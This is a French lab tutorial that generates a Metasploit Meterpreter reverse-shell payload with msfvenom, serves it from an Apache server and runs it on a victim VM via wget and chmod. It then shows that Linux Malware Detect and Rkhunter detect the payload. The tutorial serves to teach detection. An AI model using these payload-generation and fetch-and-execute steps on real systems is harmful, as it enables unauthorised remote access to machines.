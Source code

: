 Cette procédure  vise à démontrer comment un payload malveillant peut être généré et exécuté, puis comment des outils comme **Rkhunter** ou **Linux Malware Detect (LMD)** peuvent le détecter.

-----

### **Phase 1 : Préparation de la Machine Attaquante (Kali Linux)**

L'objectif ici est de mettre en place un "écouteur" qui attendra la connexion de la machine victime.

#### **1. Lancer la console Metasploit (MSF)**

Ouvrez un terminal sur votre machine Kali et lancez `msfconsole`.

```bash
msfconsole
```

#### **2. Configurer le gestionnaire d'écoute (handler)**

Dans la console MSF, nous allons configurer un gestionnaire générique pour recevoir la connexion inverse.

```bash
# Utiliser le module de gestion générique
use exploit/multi/handler

# Définir le type de payload attendu (doit correspondre au payload que nous créerons)
set PAYLOAD linux/x86/meterpreter/reverse_tcp

# Définir l'adresse IP de votre machine Kali (la machine qui écoute)
# Pour trouver votre IP, ouvrez un autre terminal et tapez : ip addr show
set LHOST <IP_de_votre_Kali>

# Lancer l'écouteur. Il attendra une connexion.
run
```

**Laissez ce terminal ouvert.** Il est maintenant en attente active d'une connexion.

-----

### **Phase 2 : Création et Distribution du Payload**

Maintenant, nous allons créer le fichier malveillant et le rendre accessible à la victime.

#### **3. Générer le payload avec MSFvenom**

Ouvrez un **nouveau terminal** sur votre machine Kali.

```bash
# Générer un exécutable ELF pour Linux
# -p : spécifie le payload (le même que pour l'écouteur)
# LHOST : l'IP de la machine Kali où le payload doit se connecter
# -f : le format du fichier (elf pour un exécutable Linux)
# -o : le nom du fichier de sortie
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP_de_votre_Kali> LPORT=4444 -f elf -o /tmp/payload.bin
```

#### **4. Mettre le payload à disposition via un serveur web**

Le moyen le plus simple de transférer le fichier est d'utiliser un serveur web Apache.

```bash
# Démarrer le service Apache2
sudo systemctl start apache2

# Copier le payload dans le répertoire racine du serveur web
sudo cp /tmp/payload.bin /var/www/html/
```

Votre payload est maintenant téléchargeable à l'adresse `http://<IP_de_votre_Kali>/payload.bin`.

-----

### **Phase 3 : Exécution et Détection sur la Machine Victime**

Cette étape simule ce qui se passerait sur le serveur compromis.

#### **5. Télécharger et exécuter le payload**

Connectez-vous au terminal de votre machine victime (votre autre VM).

```bash
# Télécharger le fichier depuis le serveur web de la machine Kali
wget http://<IP_de_votre_Kali>/payload.bin

# Rendre le fichier exécutable
chmod +x payload.bin

# Lancer le payload
./payload.bin
```

**Ne fermez pas ce terminal.** Le processus est maintenant en cours d'exécution en arrière-plan et a dû se connecter à votre machine Kali.

-----

### **Phase 4 : Confirmation de l'Intrusion et Détection**

#### **6. Confirmer la connexion**

Retournez sur le terminal de votre machine Kali où `msfconsole` est en cours d'exécution. Vous devriez voir un message indiquant qu'une session a été ouverte :

```
[*] Meterpreter session 1 opened (192.168.X.X:4444 -> 192.168.X.Y:34567) at ...
```

Vous pouvez maintenant interagir avec la machine victime via cette session Meterpreter :

```bash
# Savoir dans quel répertoire vous êtes
pwd

# Lister les fichiers
ls

# Obtenir de l'aide sur les commandes disponibles
?
```

#### **7. Lancer les outils de détection sur la victime**

C'est l'objectif principal. Maintenant que le payload est actif, voyons comment les outils de sécurité réagissent. Sur le terminal de la **machine victime** :

  * **Avec Linux Malware Detect (LMD / Maldetect)**

LMD est excellent pour scanner les fichiers et trouver des signatures de logiciels malveillants connus. Le payload généré par `msfvenom` a une signature très reconnaissable.

```bash
# Installer maldetect s'il n'est pas présent (Debian/Ubuntu)
# sudo apt-get install maldet

# Lancer un scan sur le répertoire où le payload a été téléchargé (ex: /home/user/)
sudo maldet -a /home/user/

# Un scan plus large du système de fichiers temporaires est aussi une bonne idée
sudo maldet -a /tmp/
```

**Résultat attendu :** LMD devrait trouver le fichier `payload.bin` et le signaler comme une menace, en se basant sur sa base de données de signatures (par exemple, `LMD.Payload.23`).

  * **Avec Rkhunter (Rootkit Hunter)**

Rkhunter recherche des rootkits, des portes dérobées et des modifications suspectes du système.

```bash
# Mettre à jour la base de données de Rkhunter
sudo rkhunter --update

# Lancer une vérification complète du système
sudo rkhunter --check
```

**Résultat attendu :** Rkhunter pourrait détecter plusieurs choses :

1.  Le fichier `payload.bin` lui-même s'il est considéré comme un fichier de rootkit connu.
2.  Un **processus suspect en mémoire** associé à `./payload.bin`.
3.  Des **ports ouverts suspects** si le payload en avait créé.

En suivant ces étapes, vous démontrez non seulement comment une attaque de base fonctionne, mais surtout, vous prouvez l'efficacité des outils de détection pour identifier la menace, que ce soit au niveau du fichier (`LMD`) ou du comportement du système (`Rkhunter`).